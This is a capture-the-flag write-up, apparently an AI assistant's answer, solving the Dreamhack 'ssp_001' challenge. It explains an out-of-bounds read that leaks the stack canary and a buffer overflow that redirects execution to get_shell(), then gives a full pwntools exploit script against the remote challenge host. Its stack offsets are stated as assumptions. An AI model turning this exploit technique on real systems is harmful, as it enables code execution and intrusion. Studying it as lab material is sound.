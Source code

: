 > ### A
> Wargame Exploit Solution  
> 3m 25s 동안 생각

Below is an example Python exploit script using the `pwntools` library. It demonstrates the general approach to solving the given challenge. The steps followed are:

1. Analyze the given code to find the vulnerability.
   - The program provides a stack canary and uses `scanf` and `read`. It is protected by a stack canary and NX.
   - We have two main functionalities:
     - **Fill the box (F)**: Allows writing 64 bytes into `box`.
     - **Print the box (P)**: Allows printing a single byte from `box` at a user-chosen index. There's no boundary check, so we can read out-of-bounds and leak the stack canary.
     - **Exit (E)**: Asks for "Name Size" and then reads that many bytes into `name`. Since we control the size, we can overflow past the `name` buffer, overwrite the canary, saved EBP, and return address if we know the canary. This lets us redirect execution to `get_shell()`.

2. Determine variable layout on the stack:
   The local variables in `main()` are defined as:
   ```c
   unsigned char box[0x40];  // 64 bytes
   char name[0x40];          // 64 bytes
   char select[2];           // 2 bytes
   int idx;                  // 4 bytes
   int name_len;             // 4 bytes
   // Then the stack canary is placed after all local variables, followed by saved EBP and return address.
   ```
   
   The stack layout (indexing from `box[0]` as index 0) would be approximately:
   - `box`: indices 0 ~ 63
   - `name`: indices 64 ~ 127
   - `select`: indices 128 ~ 129
   - 2-byte padding: indices 130 ~ 131 (for alignment)
   - `idx`: indices 132 ~ 135
   - `name_len`: indices 136 ~ 139
   - Canary: indices 140 ~ 143
   - Saved EBP: indices 144 ~ 147
   - Return Address: indices 148 ~ 151
   
   Thus, we can leak the canary by repeatedly using `P` with `idx` >= 140.

3. Leak the canary:
   - Use the `[P]rint the box` option with `idx` = 140, 141, 142, 143 to read the 4-byte canary.

4. Overwrite return address:
   - Use `[E]xit` option to provide a large `name_len` and write:
     `padding (76 bytes) + canary (4 bytes) + dummy EBP (4 bytes) + address of get_shell()`
   
   Address of `get_shell()` can be found by examining the binary (e.g., `objdump -d ssp_001 | grep get_shell`). Let's assume `get_shell()` is at `0x080485b6`.

5. After triggering the exploit, we get a shell. Then simply `cat flag`.

**Note**: You need the actual binary offsets for `get_shell()`. The offset provided (`0x080485b6`) is based on the code snippet and typical compilation. Adjust as needed after analyzing the binary locally.

---

### Exploit Code (pwntools)

```python
from pwn import *

# Set up context
context.binary = ELF('./ssp_001')
p = remote("host3.dreamhack.games", 21567)
elf = context.binary

# Function to interact with the menu
def menu_select(choice):
    p.sendlineafter('> ', choice)

# Leak the stack using print option
def print_box(idx):
    menu_select('P')
    p.sendlineafter("Element index : ", str(idx))
    p.recvuntil("is : ")
    return p.recvline().strip()

# Fill the box (not strictly necessary for leaking, but we can do it)
def fill_box(data):
    menu_select('F')
    p.sendafter("box input : ", data)

# Exit and trigger the overflow
def exit_with_name(size, payload):
    menu_select('E')
    p.sendlineafter("Name Size : ", str(size))
    p.sendafter("Name : ", payload)

# -----------------------------------------------------
# Step 1: Leak the canary
#
# According to our analysis, canary starts at index 140 relative to box.
# print_box() prints one byte at a time in hex format.
# We'll read canary bytes from index 140 to 143.

canary_bytes = b''
for i in range(140, 144):
    line = print_box(i)
    # line is something like 'xx' where xx is hex
    canary_bytes += bytes.fromhex(line.decode())

canary = u32(canary_bytes)
log.info("Leaked canary: 0x{:08x}".format(canary))

# -----------------------------------------------------
# Step 2: Overwrite return address
#
# Calculate offsets:
# From name buffer start to canary:
# name starts at index 64, canary at index 140, difference = 76 bytes
#
# Payload layout:
# [76 bytes padding][canary][4 bytes fake EBP][return address = get_shell]

get_shell_addr = elf.symbols['get_shell']
log.info("get_shell address: 0x{:08x}".format(get_shell_addr))

payload = b'A' * 76
payload += p32(canary)
payload += b'B'*4  # fake saved EBP
payload += p32(get_shell_addr)

# Trigger overflow via 'E'
exit_with_name(200, payload)

# If successful, we should have a shell now.
p.interactive()
```

**What this script does:**
- Connects to the remote service.
- Uses the `P` option to leak the canary by reading out-of-bounds from the stack.
- Prepares a payload that overwrites the canary correctly, the saved EBP, and the return address with `get_shell()` function.
- Sends the payload through the `E` option to overflow `name`.
- Drops into an interactive shell, allowing you to run `cat flag`.

Remember to adjust addresses if needed after examining the actual binary. Once you have the shell, simply run `cat flag` to retrieve the flag.